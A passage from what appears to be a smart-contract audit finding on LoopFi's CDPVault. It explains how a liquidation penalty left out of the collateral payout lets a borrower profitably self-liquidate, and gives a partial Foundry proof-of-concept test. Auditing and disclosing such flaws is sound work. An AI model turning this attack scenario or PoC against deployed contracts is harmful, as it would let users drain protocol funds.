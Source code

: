 This can be confirmed by observing the amount of debt that is covered via repayment:

[CDPVault.sol#L530](https://github.com/code-423n4/2024-07-loopfi/blob/main/src/CDPVault.sol#L530)

```javascript
     uint256 deltaDebt = wmul(repayAmount, liqConfig_.liquidationPenalty);
```

Note that `repayAmount * liqConfig_.liquidationPenalty` is equivalent to `repayAmount - penalty`. So the debt reduced is `repayAmount - penalty`. The problem is that the *collateral sent to the caller does not incorporate the penalty for liquidation*.

Essentially, this makes the `penalty` redundant, because the caller still receives the full `repayAmount` of collateral specified, including a `discount`.

A malicious user can perform the following attack scenario:

1. Deposit collateral via `CDPVault::deposit`.
2. Borrow WETH via `CDPVault::borrow`.
3. Have their position become unsafe (i.e., wait until enough debt interest is accrued such that `(collateral value of their position / liquidationRatio) < their current total debt`).
4. Fully buy back collateral at a discount.

### Coded PoC

Note: The value of the discount and penalty were chosen by observing the values currently set in `scripts/config.js`, they were not chosen arbitrarily.

Add the following to `test/unit/CDPVault.t.sol` and run `forge test --mt testSelfLiquidateProfit -vv`:

```javascript
    function testSelfLiquidateProfit() public {
        mockWETH.mint(address(this), 20e18);

        // discount = 0.98 ether (0.02% discount)
        // penalty = 0.99 ether (0.01% penalty)
        CDPVault vault = createCDPVault(token, 150 ether, 0, 1.25 ether, 0.99 ether, 0.98 ether);
        createGaugeAndSetGauge(address(vault));

        // create position
        uint256 wethBefore = mockWETH.balanceOf(address(this));
        _modifyCollateralAndDebt(vault, 100 ether, 80 ether);
        uint256 wethBorrowed = mockWETH.balanceOf(address(this)) - wethBefore;
        uint256 collateralDeposited = 100 ether;
        console.log("weth borrowed: ", wethBorrowed);
        console.log("collateral deposited: ", collateralDeposited);
        
        address position = address(this);
        uint256 amountUserMustRepay = vault.virtualDebt(position);
        console.log("Amount of debt user must repay: ", amountUserMustRepay);

        // any attempt to liquidate now will revert because position is safe
        vm.expectRevert(bytes4(keccak256("CDPVault__liquidatePosition_notUnsafe()")));
        vault.liquidatePosition(position, 1 ether);

        // user waits some time for price to change so position becomes unsafe (but no bad debt yet)
        // in reality, interest will accrue, however to make this PoC simple we will update spot price (which is another way user can take advantage)
        _updateSpot(0.80 ether);
        (uint256 collateral, uint256 debt , , , , ) = vault.positions(position);

        // calculate amount to repay to fully liquidate position.
        uint256 spotAmt = oracle.spot(address(token));
        uint256 discountPercent = 0.98 ether;
        uint256 discountAmount = wmul(spotAmt, discountPercent);
        uint256 repayFull = wmul(collateral, discountAmount);
```